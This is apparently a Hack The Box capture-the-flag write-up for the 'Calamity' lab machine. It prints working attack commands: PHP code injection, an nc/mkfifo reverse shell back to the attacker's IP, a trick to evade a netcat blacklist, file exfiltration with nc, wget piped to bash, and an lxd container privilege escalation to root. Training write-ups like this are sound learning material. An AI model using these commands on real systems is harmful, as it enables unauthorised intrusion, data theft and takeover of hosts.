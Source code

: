 # Calamity

This is the write-up for the box Calamity that got retired at the 20th January 2018.
My IP address was 10.10.14.16 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.27    calamity.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/calamity.nmap 10.10.10.27
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is an image and some text that says the e-store is under development and nothing interesting in the source code.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.27 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
```

It finds the index page _/uploads_ directory that has no content and _/admin.php_ that displays a login prompt.
Looking at the HTML source code of that page, it has a comment that says:
```markdown
<!-- password is:skoupidotenekes-->
```

It is possible to log in with the username _admin_ and the found password and it forwards us to a message:

![Web message](calamity_web-1.png)

This page parses HTML code and if it gets PHP code it also works.
```markdown
<?php system("whoami"); ?>
```

So we have Code Execution to start a reverse shell:
```markdown
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f"); ?>
```

The listener on my IP and port 9001 start a connection and instantly closes it. Lets look into the files in the _/home_ if there is something interesting:
```markdown
<?php system("find /home"); ?>
```

The user _xalvas_ has a file called _intrusions_ that blacklists **Netcat** and other potential intrusions.
To get a reverse shell, we try to run `nc` from the RAM disk _/dev/shm_ to get around the blacklisting:

Copy `nc` to _/dev/shm_ and rename it:
```markdown
<?php system("cp /bin/nc /dev/shm/test"); ?>
```

Make it executable:
```markdown
<?php system("chmod 755 /dev/shm/test"); ?>
```

Execute the `test` binary:
```markdown
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| /dev/shm/test 10.10.14.16 9001 >/tmp/f"); ?>
```

Now the listener on my IP and port 9001 starts a reverse shell that does not instantly close and we are the user _www-data_.

## Privilege Escalation

### Privilege Escalation to user

The home folder of _xalvas_ has many different files that should be analyzed on the local machine, so we download them:
```markdown
# Local machine:
nc -lvnp 1234 > rick.wav
nc -lvnp 1234 > xouzouris.mp3
nc -lvnp 1234 > recov.wav

# Box
/dev/shm/test 10.10.14.16 1234 < /home/xalvas/alarmclocks/rick.wav
/dev/shm/test 10.10.14.16 1234 < /home/xalvas/alarmclocks/xouzouris.mp3
/dev/shm/test 10.10.14.16 1234 < /home/xalvas/recov.wav
```

After listening to them, they don't give any hints or unusual sounds.
The files _rick.wav_ and _revoc.wav_ are almost the same file size:
```markdown
-rw-r--r-- 1 root root 3196724 Jan  6 18:32 recov.wav
-rw-r--r-- 1 root root 3196668 Jan  6 18:25 rick.wav
-rw-r--r-- 1 root root 2645839 Jan  6 18:25 xouzouris.mp3
```

To compare the wave files, the **Python module audiodiff** will help:
```python
import audiodiff

audiodiff.audio_equal('recov.wav','rick.wav')
```

The output is _False_ which means even though the audio files sound the same, they have different sound waves.
When having the same audio file several times but with different waves, it is a good idea to inverse one of the files and play it against the other audio file to detect hidden data. If someone plays the exact inverse of a sound file, they cancel each other out and we can't hear anything.
In this case the sound waves are different, so somewhere in the audio we should hear something.
Lets do this with any audio editing program like **Audacity**.

Open _rick.wav_ and import _recov.wav_:

![Audacity open files](calamity_audacity-1.png)

Highlighting one of the waves and inverting them against each other:

![Audacity invert waves](calamity_audacity-2.png)

After listening to it, it starts with some numbers and at 16 seconds to the end we hear:
```markdown
Your password is 185...
```

So it starts at 16 seconds and loops from second 0 and the whole sentence is:
```markdown
Your password is 18547936..*
```

Trying this password for the user _xalvas_ on SSH and it works:
```markdown
ssh xalvas@10.10.10.27
```

### Privilege Escalation to root

To get any attack surface on the box, executing any **Linux Enumeration** script will be helpful:
```markdown
wget http://10.10.14.16 | bash LinEnum.sh
```

The user _xalvas_ is in the group _lxd_ which means that **LXC (Linux Containers)** is running on this box that is used for some virtualization and containerization on Linux.
To exploit this, we create a small _Alpine Linux_ with the [LXD Alpine Linux image builder](https://github.com/saghul/lxd-alpine-builder).
```markdown
./build-alpine.sh -a i686
```

This creates a tar file that we upload to the Calamity box:
```markdown
scp alpine-v3.11-i686-20200106_1943.tar.gz xalvas@10.10.10.27:
```

Now import this image into LXC:
```markdown
lxc image import alpine-v3.11-i686-20200106_1943.tar.gz --alias alpine
```

With `lxc image list` we can check if the image got imported. The next step is to create the machine with the name _privesc_:
```markdown
lxc init alpine privesc -c security.privileged=true
```

Using `lxc list` to check if the machine got created. Now it needs a hard drive that gets mounted on _/mnt/root_:
```markdown
lxc config device add privesc host-root disk source=/ path=/mnt/root/
```

Starting the container and after that executing _/bin/sh_:
```markdown
lxc start privesc

lxc exec privesc /bin/sh
```

Now we are in the container as root and mounted the file system to _/mnt/root_ where we can get the flag!
